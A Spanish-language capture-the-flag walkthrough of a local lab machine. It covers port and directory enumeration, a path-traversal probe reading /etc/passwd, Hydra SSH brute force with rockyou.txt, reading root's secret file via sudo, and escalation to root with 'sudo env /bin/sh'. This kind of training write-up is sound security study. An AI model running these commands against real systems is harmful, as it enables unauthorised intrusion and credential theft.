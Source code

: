 
## Reconocimiento                         
____
Una vez desplegada comprobamos que tenemos conectividad con ```ping -c1 172.18.0.2```
 
![Pasted image 20250115125510](https://github.com/user-attachments/assets/b74ae2d7-311f-4b55-9a43-21afba33229a)


``-c1`` > solo repite el ping 1 sola vez.

Una vez tenemos conectividad con la maquina Víctima, realizo un reconocimiento con ``Nmap``

```bash
nmap -p- --open -sS -sV -sC -min-rate 5000 -n -Pn 172.18.0.2 -oN Puertos
```

![Pasted image 20250115125915](https://github.com/user-attachments/assets/3bdbf7d7-72a6-4eac-9dcf-dc63f8d2ee19)


Para ver los resultados de una forma mas vistosa realizo un ``cat Puertos -l ruby.rail``

![Pasted image 20250115130025](https://github.com/user-attachments/assets/9ad22776-3b9c-43a9-b286-3b75a7397415)


Como se muestra en el resultado obtenemos los puertos 22 y 80 como puertos abiertos y con sus versiones.

## Puerto 80 (http)
------

Accederemos al servidor web indicando la dirección IP en el buscador del navegador.

![Pasted image 20250117124516](https://github.com/user-attachments/assets/a192f7bc-bac6-4cbf-a566-c96f8a3544d1)


Obtenemos una página por defecto de Apache2.
Revisamos el código fuente de la pagina por si vemos algo fuera de lo normal. Para ello pulsamos ``Crtl + u`` 

![Pasted image 20250117124713](https://github.com/user-attachments/assets/d260d74d-a30b-4573-a0d1-d36383fb5db6)


Revisando todo el código no veo nada relevante.

### Enumeración de directorios (Gobuster)
-------- 
Vista la pagina Web y su código fuente sin obtener ningún resultado llamativo, realizo el siguiente comando con la herramienta GoBuster para encontrar posibles directorios ocultos.

```bash
gobuster dir -u 172.18.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -t 200
```

![Pasted image 20250117130341](https://github.com/user-attachments/assets/2d59ab94-db9b-4971-8c02-855fe500c7b0)

<details>
	<summary><strong>Explicación Comando:</strong></summary>
	 gobuster dir > Modo de enumeración de directorios en un servidor web.
	-u 172.18.0.2 > Especificar la dirección IP objetivo donde se va ha enumerar directorios.
	-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt > especificar el diccionario de palabras para probar nombres de directorios en el servidor objetivo.
	-x html,php,txt > Especificar las extensiones a probar. Ejemplo: index.html, index.php, secret.txt.
	-t 200 > numero de hilos para hacer el escaneo mas rápido. OJO: cuantos mas hilos se pongan mas se puede sobrecargar el servidor objetivo.
</details>

Como se muestra en la imagen, nos encuentra el directorio /wordpress, al cual le voy a pasar nuevamente la herramienta Gobuster para ver posibles directorios ocultos.

```bash
gobuster dir -u 172.18.0.2/wordpress -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,sql,py,js -t 200
```

<details>
	<summary><strong>Explicación Comando:</strong></summary>
	 gobuster dir > Modo de enumeración de directorios en un servidor web.
	-u 172.18.0.2/wordpress > Especificar la dirección IP objetivo con el directorio ya encontrado donde se va ha enumerar directorios.
	-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt > especificar el diccionario de palabras para probar nombres de directorios en el servidor objetivo.
	-x html,php,txt,sql,py,js > Especificar las extensiones a probar. Ejemplo: index.html, index.php, secret.txt.
	-t 200 > numero de hilos para hacer el escaneo mas rápido. OJO: cuantos mas hilos se pongan mas se puede sobrecargar el servidor objetivo.
</details>

![Pasted image 20250120120657](https://github.com/user-attachments/assets/32eec660-f548-4218-9917-1c10c255b42e)


Como resultado, obtenemos un nuevo directorio dentro del directorio wordpress, con nombre index.php.

Examinamos el sitio web con estos directorios que hemos enumerado:

![Pasted image 20250120121015](https://github.com/user-attachments/assets/b6a4ad43-d3c8-4d0e-81d8-fcda770cdf1b)


En dicha pagina web no hay nada relevante e incluso los enlaces no llevan a ningún sitio.
Procedemos a examinar el código fuente de la web ``Ctrl + u``: 

![Pasted image 20250120121124](https://github.com/user-attachments/assets/c4671770-59a0-4a48-99f6-dfd48547c3d0)

En su código fuente solo obtenemos un texto comentado, el cual se resalta en verde.
Como no hemos conseguido nada, simplemente un texto comentado, vamos a usar la herramienta ``WFUZZ`` para ver si existe un LFI (Local file inclusion):

```bash
 wfuzz -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt "http://172.18.0.2/wordpress/index.php?FUZZ=../../../../../../../../../../etc/passwd"
```

<details>
	<summary><strong>Explicación Comando:</strong></summary>
	 

wfuzz -> Ejecuta la herramienta Wfuzz, que se usa para pruebas de fuzzing en aplicaciones web.|

-c -> Muestra la salida en color para facilitar la lectura de los resultados.

-w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -> Especifica la **wordlist** que se utilizará para realizar pruebas de inyección en la URL. En este caso, la wordlist contiene nombres de directorios y archivos que podrían existir en el servidor.

"http://172.18.0.2/wordpress/index.php?FUZZ=../../../../../../../../../../etc/passwd" -> Define la **URL objetivo** en la que se ejecutará el fuzzing. La palabra clave `FUZZ` será reemplazada por cada entrada de la wordlist para probar posibles valores.

../../../../../../../../../../etc/passwd -> Intenta realizar una travesía de directorios (Directory Traversal o Path Traversal) para acceder al archivo `/etc/passwd`, que contiene información de los usuarios en sistemas Linux.
</details>

![Pasted image 20250120121457](https://github.com/user-attachments/assets/405d2ac3-1c34-4489-a14a-c982fdfd8d95)


Como vemos en la imagen, nos esta dando muchos resultados, los cuales no son los que queremos obtener, para filtrar este resultado voy a incluir el parámetro ``--hw 115`` que en este caso nos va a excluir todas aquellas respuestas con una cantidad de 115 palabras.

![Pasted image 20250120122142](https://github.com/user-attachments/assets/18d8df33-ee04-4b2d-ae7b-fec771e43d47)


Vemos como nos ha detectado "love" como parámetro a pasar en la URL que hemos usado en la herramienta ``WFUZZ``
Con dicho parámetro, vamos al navegador y ponemos la URL:

![Pasted image 20250120122348](https://github.com/user-attachments/assets/0d4280d7-dd90-4320-b76d-480c3a7b12cf)


Como vemos la pagina es vulnerable a un LFI.
Ahora para verlo mejor abrimos el código fuente ``Ctrl + U``

![Pasted image 20250120122443](https://github.com/user-attachments/assets/546de987-e25e-4b27-924b-f9f63ab24cf1)


Como se puede observar, tenemos dos posibles usuario.
pedro y rosa.

Con estos usuarios obtenidos, pasamos a realizar un ataque por fuerza bruta con Hydra al puerto 22 SSH.


## Puerto 22 (SSH):
------ 

Primero usamos ``Hydra`` con el usuario pedro:

```bash
hydra -l pedro -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

<details>
	<summary><strong>Explicación Comando:</strong></summary>
	
hydra -> Ejecuta la herramienta Hydra, que es utilizada para ataques de fuerza bruta contra distintos servicios.
-l pedro -> Especifica el nombre de usuario a probar (`pedro`). Solo se probarán contraseñas para este usuario.
-P /usr/share/wordlists/rockyou.txt -> Usa el archivo `rockyou.txt` como diccionario de contraseñas. Este archivo contiene millones de contraseñas filtradas y es muy usado en pruebas de penetración.|
ssh://172.18.0.2 -> Indica que el ataque será contra el servicio SSH en la IP 172.18.0.2.
</details>

![Pasted image 20250120123111](https://github.com/user-attachments/assets/6af7d620-73cb-465a-87ad-76617de7147c)


Con el usuario pedro tarda mucho y no, nos esta encontrando nada.

Paso a probar con el usuario rosa empleando el mismo comando de la herramienta ``Hydra``

```bash
hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![Pasted image 20250120123220](https://github.com/user-attachments/assets/df044a29-8722-4dd2-aff9-29c0d0aed393)


Para el usuario rosa nos encuentra la contraseña ``lovebug``, la cual vamos a emplear para realizar una conexión SSH.

```bash
ssh rosa@172.18.0.2
```

![Pasted image 20250120123356](https://github.com/user-attachments/assets/dae5a678-a1a4-46fa-8a29-d4fdee02ef76)


Estamos dentro como el usuario Rosa

## Escalada de privilegios.
------
Para empezar usaremos el comando ``sudo -l``, de esta manera sabemos que podemos ejecutar como sudo.

![Pasted image 20250120123553](https://github.com/user-attachments/assets/e120fca9-9070-4795-9358-6830424c3c47)


Vemos que el usuario rosa puede usar los comando ls (listar archivos) y cat (mostrar contenido de archivos) como root.

Sabiendo esto, procedo a listar todos los archivos y directorios del usuario root, incluyendo los ocultos:

```bash
sudo ls -la /root
```

![Pasted image 20250120124119](https://github.com/user-attachments/assets/7bb289b8-2555-492b-8b56-3c935570f8a3)


Obtenemos un archivo secret.txt al cual le pasaremos el comando cat para ver su contenido:

```bash
sudo cat /root/secret.txt
```

![Pasted image 20250120124224](https://github.com/user-attachments/assets/b342f51c-eac7-4aae-8914-344733eb6389)


Nos muestra un numero hexadecimal, el cual podemos descifrar en la pagina web CyberChef usando el operador ``Magic``:

![Pasted image 20250120124347](https://github.com/user-attachments/assets/be56fa43-9a65-48b9-9858-728c0706e110)
![Pasted image 20250120124358](https://github.com/user-attachments/assets/9885faba-86c1-4d92-bdfd-d53eba2f9754)

Nos muestra como resultado: ``noacertarasosi``
La cual puede ser una posible contraseña, en este caso para el usuario pedro.
Pruebo a cambiar de usuario a pedro y introducir dicha contraseña:

![Pasted image 20250120124538](https://github.com/user-attachments/assets/52d766e6-2aeb-4dd1-98fb-728b9e6c904e)


Estamos dentro de pedro.
Ahora usamos el comando ``sudo -l``para saber que puede ejecutar pedro como root:

![Pasted image 20250120124646](https://github.com/user-attachments/assets/26fe039e-dff2-4545-95e5-80cd154a3558)


Como vemos, pedro tiene permisos para ejecutar /env con permisos de root.
Visto esto, vamos a buscar en la web CTFOBins una posible escalada de privilegios para /env:

![Pasted image 20250120124902](https://github.com/user-attachments/assets/aad1dd4a-47bb-40e0-aa66-f2d142738ace)


Vamos a la terminal y ejecutamos dicho comando:

```bash
sudo env /bin/sh
```

![Pasted image 20250120124943](https://github.com/user-attachments/assets/daa03ddd-f789-4c08-8be2-b11e568337fd)


Ya estaríamos dentro del sistema como el usuario ``ROOT``


